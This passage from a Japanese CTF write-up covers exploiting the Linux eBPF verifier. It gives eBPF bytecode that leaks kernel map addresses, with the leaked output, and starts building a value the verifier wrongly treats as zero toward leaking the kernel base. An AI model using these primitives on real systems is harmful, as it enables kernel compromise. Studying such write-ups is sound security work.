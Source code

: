 ## 最新のkernelでは
最初にZDIの該当レポートを読んだ時、mapポインタに対する加算が`CAP_SYS_ADMIN`がないとダメだということにちょっと驚いた。というのも、[TWCTFのeepbf](https://smallkirby.hatenablog.com/entry/2021/01/31/210158)をやったときには、この権限がない状態でmapを操作してAAWに持っていったからだ。というわけで新しめのkernelを見てみると、`check_alu_op()`において該当の処理が消えていた。すなわち、mapポインタに対する加法はそれがmapの正答なメモリレンジ内にある限りnon-adminに対しても許容されるようになっていた(勿論レンジのチェックは`check_map_access()`において行われる)。

## というか、pointer leakが任意に可能じゃん...
というか、`allow_ptr_leaks`が`true`になっているため、任意にポインタをリークすることができる。例えば、以下のようなeBPFプログラムで(rootでなくても)簡単にmapのアドレスがleakできる。
```stack_leak.c
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_8)
```
```result.sh
/ $ ./mnt/exploit
[80] 0xffff88000e300a90
[88] 0xffff88000e300a90
[96] 0xffff88000e300a90
[104] 0xffff88000e300a90
[112] 0xffff88000e300a90
[120] 0xffff88000e300a90
[128] 0xffff88000e300a90
[136] 0xffff88000e300a90
```
うーん、お題のために制限をゆるくしすぎてる気がするなぁ。。。


# leak kernbase
## 0に見える1をつくる
こっからは作業ゲーです。
まずは以下のBPFコードでverifierからは0に見えるような1をつくる。
```make_1_looks_0.c
    /* get cmap[0] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0),       // r6 = cmap[0] (==0)
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),                // r9 = &cmap[0]
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]
    /* get cmap[1] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                // qword[r2] = 1
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0),       // r7 = cmap[1] (==1)
```